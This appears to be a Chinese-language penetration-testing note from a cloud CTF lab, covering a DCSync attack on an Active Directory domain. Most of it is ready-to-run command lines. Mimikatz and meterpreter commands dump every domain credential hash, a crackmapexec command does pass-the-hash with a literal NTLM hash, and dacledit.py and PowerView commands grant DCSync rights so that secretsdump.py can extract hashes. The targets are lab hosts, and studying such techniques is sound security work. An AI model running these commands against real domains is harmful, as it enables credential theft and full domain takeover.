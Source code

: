 5. DCSync 获取域管凭据

```ps1
.\mimikatz.exe "kerberos::purge" "kerberos::ptt DC01.kirbi" "lsadump::dcsync /domain:xiaorang.lab /user:administrator" "exit"  
.\mimikatz.exe "kerberos::purge" "kerberos::ptt DC01.kirbi" "lsadump::dcsync /domain:xiaorang.lab /all /csv" "exit"

# msf
meterpreter > load kiwi
meterpreter > kiwi_cmd "lsadump::dcsync /domain:xiaorang.lab /all /csv" exit
```

最后 hash传递
```bash
proxychains crackmapexec smb 172.22.1.2 -u administrator -H10cf89a850fb1cdbe6bb432b859164c8 -d xiaorang.lab -x "type Users\Administrator\flag\flag03.txt"
```


### DCSync 攻击

[DCSync](http://www.malabis.site/2022/11/12/春秋云镜-Initial/#横向移动)

DCSync 攻击前提 一个用户想发起 DCSync 攻击，必须获得以下任一用户的权限：

`whoami /all`

- Administrators 组内的用户
- Domain Admins 组内的用户
- Enterprise Admins 组内的用户
- ACL_ADMIN 组 或有 WriteDACL 权限
- 域控制器的计算机帐户
- 即：默认情况下域管理员组具有该权限。所以在域渗透中拿到域管理员账号就可以变相拿到整个域的控制权限。

```sh
meterpreter > load kiwi
meterpreter > kiwi_cmd "lsadump::dcsync /domain:xiaorang.lab /all /csv" exit
# 拿到hash后 通过哈希传递 拿到域控
proxychains crackmapexec smb 172.22.1.2 -u administrator -H10cf89a850fb1cdbe6bb432b859164c8 -d xiaorang.lab -x "type Users\Administrator\flag\flag03.txt"
```

#### 添加 DCSync 权限, 见 春秋云境——Exchange/Delivery

```sh
# 方式一
proxychains python3 dacledit.py xiaorang.lab/XIAORANG-EXC01\$ -hashes :0beff597ee3d7025627b2d9aa015bf4c -action write -rights DCSync -principal Zhangtong -target-dn 'DC=xiaorang,DC=lab' -dc-ip 172.22.3.2
# 方式二
powershell -command "cd C:/Users/benbi/Desktop/; Import-Module .\powerview.ps1; Add-DomainObjectAcl -TargetIdentity 'DC=xiaorang,DC=lab' -PrincipalIde Zhangtong -Rights DCSync -Verbose"
# 完整的 Add-DomainObjectAcl -TargetIdentity 'DC=xiaorang,DC=lab' -PrincipalIdentity chenglei -Rights DCSync -Verbose

# 导出域内hash
proxychains python3 secretsdump.py xiaorang.lab/chenglei:Xt61f3LBhg1@172.22.13.6 -just-dc
```

### DC Takeover

[Ichunqiu 云境 —— Tsclient Writeup](https://mp.weixin.qq.com/s/1VDwjl_fhpZOKUy5-ZHCTQ)
